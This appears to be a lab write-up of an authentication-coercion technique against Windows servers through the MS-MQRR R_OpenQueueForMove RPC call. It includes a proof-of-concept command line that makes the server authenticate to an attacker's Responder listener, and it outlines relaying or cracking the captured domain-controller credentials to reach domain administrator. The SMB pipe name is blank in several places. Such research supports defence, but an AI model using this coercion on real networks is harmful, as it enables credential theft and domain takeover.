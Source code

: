 # MS-MQRR - Remote call to R_OpenQueueForMove (opnum 11)

## Summary

 - **Protocol**: [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1)

 - **Protocol UUID**: 1a9134dd-7b39-45ba-ad88-44d01ca47f28

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`R_OpenQueueForMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487)

 - **Function operation number**: `11`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol (with uuid `1a9134dd-7b39-45ba-ad88-44d01ca47f28` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) and allows to call RPC functions of this protocol. We will then call the remote [`R_OpenQueueForMove`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_OpenQueueForMove('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
void R_OpenQueueForMove(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwAccess,
   [in] DWORD dwShareMode,
   [in] GUID* pClientId,
   [in] LONG fNonRoutingServer,
   [in] unsigned char Major,
   [in] unsigned char Minor,
   [in] USHORT BuildNumber,
   [in] LONG fWorkgroup,
   [out] ULONGLONG* pMoveContext,
   [out] QUEUE_CONTEXT_HANDLE_SERIALIZE* pphContext
 );
```

## References

 - Documentation of protocol [MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1

 - Documentation of function `R_OpenQueueForMove`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/960e383b-d0c9-482f-9617-2507d1dc0487